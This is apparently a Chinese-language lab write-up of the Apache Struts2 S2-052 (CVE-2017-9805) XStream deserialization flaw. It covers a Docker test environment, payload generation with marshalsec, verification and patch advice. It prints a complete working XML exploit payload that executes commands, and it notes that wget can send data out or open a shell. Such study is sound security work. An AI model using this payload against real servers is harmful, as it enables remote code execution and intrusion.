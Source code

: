# S2-052

### 漏洞描述：

2017年9月5日，Apache Struts发布最新安全公告，Apache Struts2的REST插件存在远程代码执行的高危漏洞，该漏洞由lgtm.com的安全研究员汇报，漏洞编号为CVE-2017-9805（S2-052）。Struts2 REST插件的XStream组件存在反序列化漏洞，使用XStream组件对XML格式的数据包进行反序列化操作时，未对数据内容进行有效验证，存在安全隐患，可被远程攻击。问题出现在struts2-rest-plugin插件XStreamHandler处理器中的toObject()方法，其中未对传入的值进行任何限制，在使用XStream反序列化转换成对象时，导致任意代码执行漏洞。

官网描述：https://cwiki.apache.org/confluence/display/WW/S2-052



### 漏洞编号：

CVE-2017-9805(S2-052)

### 漏洞评级：

高危

### 漏洞环境：

我使用了VulApps的docker环境。[参考](https://github.com/Medicean/VulApps/tree/master/s/struts2/s2-052)

> 1. 拉取镜像到本地
>
> ```
> $ docker pull medicean/vulapps:s_struts2_s2-052
>
> ```
>
> 2. 启动环境
>
> ```
> $ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-052
>
> ```
>
> > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。



### 漏洞测试

##### POC生成

 主要利用marshalsec（<https://github.com/mbechler/marshalsec>）生成Payload，工具简单使用方式如下：

>  java -cpmarshalsec-0.0.1-SNAPSHOT-all.jar marshalsec.<Marshaller> [-a][-v] [-t][ []]

主要参考作者Paper针对XStream的Payload，然后从中寻找一个适合Struts的Payload。

![1](/Users/moxiaoxi/Desktop/S2-052/1.jpg)

这里使用可以用的ImageIO。最后的命令如下：

```
mvn clean package -DskipTests
java -cp target/marshalsec-0.0.1-SNAPSHOT-all.jar marshalsec.XStream ImageIO /usr/bin/touch xstremtest > poc.txt
```



#### POC验证

点击view

![2](/Users/moxiaoxi/Desktop/S2-052/2.png)

写入http头：Content-Type: application/xml  

写入poc：

![3](/Users/moxiaoxi/Desktop/S2-052/3.jpg)

可以在服务器上看到xstremtest被新建

![4](/Users/moxiaoxi/Desktop/S2-052/4.png)



这是本地测试情况。

远程测试可以尝试使用/usr/bin/wget指令向指定服务器打数据。若服务器获得数据，则说明存在漏洞。若要拿shell，也可通过wget+bin/bash指令获得。



### 修复建议

1.官方建议设置插件处理的数据类型限定为json

2.升级Struts到2.5.13版本或2.3.34版本

3.在XStreamHandler中进行数据校验或检查



### 附录POC：

```
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command>
                        <string>/usr/bin/touch</string>
                        <string>xstremtest</string>
                      </command>
                      <redirectErrorStream>false</redirectErrorStream>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
  </entry>
  <entry>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
  </entry>
</map>

```

POC不需要重新生成，只需要修改

```
          <command>
                        <string>/usr/bin/touch</string>
                        <string>xstremtest</string>
                      </command>
```

这一块就好了。